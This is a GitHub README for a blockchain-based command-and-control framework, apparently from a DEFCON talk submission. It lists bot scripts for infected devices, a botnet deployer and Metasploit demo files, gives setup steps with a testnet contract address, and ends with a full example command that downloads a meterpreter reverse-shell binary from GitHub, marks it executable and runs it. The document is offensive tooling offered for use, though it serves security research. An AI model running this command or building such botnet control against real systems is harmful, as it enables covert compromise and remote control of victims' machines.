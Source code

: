 # DAPPin that Gas | A Blockchain Enabled C2 Solution


A C2 solution that lives in the blockchain as a DAPP.

Core Contents:
* [SpectralCommandRelay.sol](./contracts/SpectralCommandRelay.sol): Smart Contract that can be deployed to the blockchain to act as a C2 channel
* [bot_minimal.py](./bots/bot_minimal.py): An incredibly simple endpoint for our C2 blockchain solution to be run on infected devices
* [bot_deployer.py](./bots/bot_deployer.py): Script that generates & manages a local botnet
* [bot_template.py](./bots/bot_template.py): Template for a more advanced endpoint for our C2 blockchain solution to be run on infected devices

Demo Contents:
* [SCR_Demo_Meter.rc](./demo/SCR_Demo_Meter.rc): MSFConsole init script used in our local botnet demo
* [cleanup.sh](./demo/cleanup.sh): Script to cleanup any lingering meterpreter sessions after our demo

Presentation Contents:
* [DAPPin_that_Gas_DEFCON_Submission_BlockchainC2.pptx](./demo/DAPPin_that_Gas_DEFCON_Submission_BlockchainC2.pptx): The powerpoint we sent to the DEFCON Talks Panel



# How to Play

* Get setup with a web3 wallet, the [Metamask](https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn) chrome plugin is pretty quick and straight forward
* Grab [SpectralCommandRelay.sol](./contracts/SpectralCommandRelay.sol) and paste it into [https://remix.ethereum.org/](https://remix.ethereum.org/).
* Compile our .sol script
* Switch your web3 provider to "Injected Web3" and set your network to the "Rinkeby" testchain.
* Either deploy an instance of the relay or "Load at address" 0x69429FB223b3BA3D5823B980E590bF857a680c13
* Grab some [scratch on rinkeby](https://faucet.rinkeby.io/) and start sending commands

An Example command that installs and runs a meterpreter shell on an infected device which is running our [bot_minimal.py](./bots/bot_minimal.py) script
```
0~wget https://github.com/Cooperw/meterpreter_executables/raw/main/linux_x64_meterpreter_reverse_tcp_local_4444.elf; chmod +x linux_x64_meterpreter_reverse_tcp_local_4444.elf; ./linux_x64_meterpreter_reverse_tcp_local_4444.elf
```

